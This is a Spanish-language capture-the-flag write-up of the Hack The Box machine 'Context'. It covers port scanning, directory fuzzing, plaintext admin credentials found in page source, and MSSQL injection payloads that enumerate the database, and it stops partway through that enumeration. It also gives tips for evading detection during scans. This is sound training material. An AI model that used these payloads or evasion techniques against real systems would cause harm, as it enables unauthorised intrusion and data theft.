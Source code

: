 ```yaml
---
layout: single
title: Context - Hack The Box
excerpt: "Context es una máquina de la sección Fortress de Hack The Box."
date: 2022-09-10
classes: wide
header:
  teaser: /assets/images/writeup-context/context.PNG
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - HTB
  - TCP
  - 
---
```


![](/assets/images/writeup-context/context2.jpg)

Context es una máquina de la sección Fortress de Hack The Box en la que se pueden hackear un montón de cosas, así podemos practicar un montón de técnicas distintas en la misma máquina.

## PORT SCAN

TCP:

(Por cierto, que en los writeups anteriores no lo puse y quizás es interesante. No tomo `medidas de seguridad` para hacer `menos ruido` y ser `menos detectable` porque es un CTF, pero sino, lo primero seria que el parámetro `-T 5` obviamente seria entre `-T 0` a `-T 3` y `fragmentaria` los paquetes en `paquetes de 8 bites` que se irían mandando poco a poco con el parámetro `-ff` (a la vez que haria uso de una `vpn` o `vps` para cambiarme la ip) `ESTO SE APLICA A TODOS LOS ESCANEOS PERO CON PARÁMETROS DISTINTOS`)

```
 > nmap -sV -sC -Pn -T5 -n --open 10.13.37.12

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 19:29 CEST
Nmap scan report for 10.13.37.12
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
|_http-server-header: Microsoft-IIS/10.0
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|_  Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2022-09-10T17:30:25+00:00
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2022-06-01T08:57:37
|_Not valid after:  2022-12-01T08:57:37
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 9s, deviation: 0s, median: 8s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.48 seconds
```

El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.

También vemos que hay una `Base de datos` en el puerto `1433/tcp` y viendo que tanto en ese puerto como en los siguientes está corriendo un servicio de `Microsoft` da a entender que la máquina es `Windows`, pero eso lo comprobaremos más adelante.

Y también vemos que hay un servidor corriendo en el puerto `3389/tcp` por lo que probablemente es otra `web`.

OS:

Ya hemos visto que probablemente será una máquina `Windows`, pero vamos a comprobarlo. Para esto vamos a mandarle una `traza ICMP` y según el `ttl` de la respuesta vamos a saber que `sistema operativo` tiene.

```
❯ ping -c 1 10.13.37.12

PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=105 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 105.403/105.403/105.403/0.000 ms
```

Vemos que el ttl = 127 aunque en la realidad es `ttl = 128` porque la conexión no es directa, sino que pasa por un host intermediario, lo cual le quita uno de ttl. Por lo que podemos saber que estamos ante una máquina `Windows`.

(También he hecho un escaneo de los puertos que hay por el protocolo UDP, pero como no hay ningún puerto abierto he decidido no ponerlo aquí ya que no es interesante)

(Y no voy a probar el eternalblue, ya que nmap no lo detecta y al ser un fortress dudo que sea un windows antiguo)

## PUERTO 443

Si vamos a la web encontramos esto:

![](/assets/images/writeup-context/web-1.PNG)

Si clicamos donde pone lo de contacto, cuando nos redirija encontraremos que hace mención a un login de admin, y así podemos encontrar ese login que veremos más tarde.

Volviendo a la página principal no encontramos gran cosa, pero primero vamos a ver el `código` de la página, a ver si encontramos algo interesante o `virtual host routing` es decir, que haya varios servidores en el mismo host... Pero no encontramos gran cosa. Lo que si, si nos fijamos, la mayoría de cosas están en un directorio `/Home` por lo que vamos a hacer `wfuzzing` a ese directorio para ver que encontramos.

```
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://10.13.37.12/Home/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.13.37.12/Home/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000042:   200        99 L     209 W      2883 Ch     "products"
000000029:   200        59 L     245 W      2455 Ch     "privacy"
000000025:   200        63 L     145 W      2070 Ch     "contact"
000000245:   200        74 L     177 W      2137 Ch     "staff"
000000592:   200        63 L     145 W      2070 Ch     "Contact"
000000496:   200        99 L     209 W      2883 Ch     "Products"
000000616:   200        59 L     245 W      2455 Ch     "Privacy"
000000659:   200        78 L     232 W      2548 Ch     "Index"
000002614:   200        74 L     177 W      2137 Ch     "Staff"
000005085:   200        78 L     232 W      2548 Ch     "INDEX"
000023314:   200        63 L     145 W      2070 Ch     "CONTACT"
000043401:   200        59 L     245 W      2455 Ch     "PRIVACY"                                                                 
000071101:   200        99 L     209 W      2883 Ch     "PRODUCTS"  
```

Principalmente, me llama la atención el directorio `/Home/staff` vamos y vemos unos cuantos nombres que probablemente nos sirvan para `usernames` en algún lado.

![](/assets/images/writeup-context/web-staff.PNG)

También si vamos al `código` no encontramos gran cosa. Pero lo que sí que encontramos es la primera FLAG: `CONTEXT{s3cur1ty_thr0ugh_0bscur1ty}`

![](/assets/images/writeup-context/web-code.PNG)

A demás, vemos que un poco más abajo hace referencia al directorio `/Admin` que para entrar nos tenemos que loguear (no nos hace un redirect, por lo que `no parece vulnerable a Idor`) pero antes de probar algunos ataques como `Idor` o `SQLi` nos podemos fijar en otra cosa. En el mismo mensaje donde está la flag también encontramos unas credenciales `jay.teignton:admin` así que vamos a probarlas.

Y nos las acepta, no sé porque me ha hecho un redirect a la página principal, pero voy a `/Admin` y ya me manda para `/Admin/Management`. Pues ya estamos dentro, si fuese un CTF normal aquí seria donde habría que buscar una forma de mandarnos una reverse shell, pero es un Fortress así que no creo que todavía se pueda.

Pues asi lo primero que me llama la atención es que podemos añadir cosas, así que lo primero que voy a intentar sera una `SQL injection`. 

```
'+(select db_name())+'
```

![](/assets/images/writeup-context/admin-sqli-1.PNG)

Y vemos que es vulnerable y nos muestra el nombre de la base de datos:

![](/assets/images/writeup-context/admin-sqli-2.PNG)

Por lo que si seguimos enumerando la base de datos nos encontramos la `tabla users`:

```
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

![](/assets/images/writeup-context/admin-sqli-3.PNG)
